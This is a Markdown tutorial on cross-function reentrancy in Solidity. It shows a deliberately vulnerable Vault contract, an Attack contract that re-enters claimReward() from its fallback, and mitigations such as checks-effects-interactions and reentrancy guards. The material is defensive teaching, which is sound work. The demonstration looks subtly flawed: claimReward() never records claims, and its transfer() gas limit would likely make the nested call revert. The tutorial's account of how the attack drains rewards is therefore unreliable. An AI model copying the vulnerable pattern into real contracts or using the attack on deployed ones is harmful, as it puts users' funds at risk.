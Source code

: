 # Cross-Function Reentrancy in Solidity

### 📌 What is Reentrancy?

Reentrancy occurs when an external call made by a contract gives control back to the caller *before* the original function finishes execution.  
The attacker can then exploit inconsistent state to drain funds or bypass logic.

- **Single-function reentrancy** → attacker re-enters the *same* function (classic DAO hack, 2016).  
- **Cross-function reentrancy** → attacker re-enters *different* functions within the same contract, abusing shared state.

---

### ⚔️ Example Vulnerable Contract

```solidity
pragma solidity ^0.8.0;

contract Vault {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) external {
        require(balances[msg.sender] >= amount, "Not enough balance");

        // ❌ State updated AFTER external call → vulnerable
        (bool ok, ) = msg.sender.call{value: amount}("");
        require(ok, "ETH transfer failed");

        balances[msg.sender] -= amount;
    }

    function claimReward() external {
        // Rewards based on balance
        uint256 reward = balances[msg.sender] / 10;
        payable(msg.sender).transfer(reward);
    }
}
```
---
### 🚨 How Cross-Function Reentrancy Works
1. Attacker deposits some ETH.
2. Attacker calls `withdraw()`.
3. During the `call`, attacker’s fallback executes _before balances are updated_.
4. Instead of re-entering `withdraw()`, attacker re-enters `claimReward()`.
   - `balances[msg.sender]` still shows full balance.
   - Attacker drains rewards multiple times.

### 🕷️ Attack Contract

```solidity
pragma solidity ^0.8.0;

import "./Vault.sol";

contract Attack {
    Vault public target;

    constructor(address _target) {
        target = Vault(_target);
    }

    // Fallback gets control during withdraw()
    fallback() external payable {
        // Re-enter a different function (cross-function reentrancy)
        target.claimReward();
    }

    function pwn() external payable {
        target.deposit{value: msg.value}();
        target.withdraw(msg.value);
    }
}
```

### 🔑 Why It’s Dangerous
- Many devs only think about re-entering the _same function_.
- State shared across multiple functions (balances, reserves, governance votes) can be abused mid-transaction.
- Exploits extend beyond ETH transfers: **ERC20 hooks, voting power, reward multipliers, AMM reserves**.

### ✅ Mitigation Strategies
- **Checks-Effects-Interactions (CEI)**: Update state before calling external contracts.
- **Reentrancy Guards**: Use `nonReentrant` modifier (OpenZeppelin).
- **Separation of Concerns**: Don’t mix reward logic with withdrawals.
- **Pull Over Push**: Let users claim rewards separately, no implicit transfers.

### 📚 References
- [The DAO Hack (2016)](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/)
- [SWC-107: Reentrancy](https://swcregistry.io/docs/SWC-107/)
- [Solidity Security Considerations](https://docs.soliditylang.org/en/v0.8.20/security-considerations.html#re-entrancy)

